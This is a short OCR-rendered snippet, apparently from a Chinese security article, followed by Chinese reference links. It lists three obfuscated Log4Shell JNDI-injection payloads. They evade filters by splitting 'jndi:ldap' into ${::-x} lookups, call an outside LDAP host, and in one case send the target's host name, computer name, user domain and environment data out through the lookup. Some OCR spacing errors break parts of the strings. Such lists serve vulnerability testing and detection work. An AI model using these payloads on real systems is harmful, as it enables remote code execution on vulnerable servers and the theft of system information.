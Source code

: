 ```
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::- p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk} 

${${upper::-j}${upper::-n}${::-d}${upper::-i}:${upper::-l}${upper::-d}${upper::- a}${upper::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk} 

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::- p}://${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}.nsvi5sh112ksf1bp1ff2hvztn.l 4j.zsec.uk
```





参考链接

https://xz.aliyun.com/t/10649#toc-2

https://www.anquanke.com/post/id/262668#h3-5

https://tttang.com/archive/1378/

https://www.cnpanda.net/sec/1114.html